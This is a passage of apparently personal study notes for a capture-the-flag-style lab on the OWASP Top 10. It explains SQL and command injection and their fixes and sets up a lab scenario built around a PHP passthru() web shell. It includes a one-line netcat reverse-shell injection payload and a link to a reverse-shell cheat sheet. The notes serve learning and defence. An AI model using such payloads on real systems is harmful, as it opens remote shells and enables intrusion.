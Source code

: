 # The OWASP Top 10

This is a room which highlights the OWASP Top 10 as of a year ago (OWASP Data 2020). The headers go in the 1-10 order from least to most important to learn and fix (or in our case, the first ones to check for exploits for)

## Injection

Injection flaws are one of the most common vulns currently. It usually occurs due to a dev using user input directly instead of sanitizing data.

The most common types:

- SQL Injection is when user input is passed directly into a SQL query without sanitization, which can allow a user to see different information than the developer intended, like rows from tables and such
- Command Injection is slightly less popular, but involves when input is passed directly into a system, in which the said user could run system commands without even logging into a shell
  - Usually happens with PHP, Python, etc.
  - Blind command injection involves injecting code into a server but nothing is shown in the HTML document
  - Active command injection will return a result to the user

Not fixing this usually means any user would be able to access, modify, or delete any data they want given they are able to obtain information about what they injected (i.e. getting a list of tables and their columns in SQL or the `cwd` or `id` of the current user running the web app)

Fixes are usually pretty simple. A dev can do things like:

- fail a call if it contains characters which allow someone to inject
- use things like prepared statements so that input is taken in as a literal string and not part of a query/command
- sanitize inputs to escape characters which might be bad

[Interesting List of Reverse Shells - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Very simple reverse shell if it's supported: `;nc -e /bin/bash`

### Example

IP: 10.10.18.143

Scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet. It has some command injection vulns.

![evilshell.php](https://i.imgur.com/KcGizdo.png)

`passthru()` runs the command it's given and passes the output back to the browser. [php docs](https://www.php.net/manual/en/function.passthru.php)

<small>Also, fun PHP fact, PHP can't output stderr, but try blocks require a catch block to match</small>

In this case, since output is gonna be passed back to the browser, then it's can be used for active command injection.

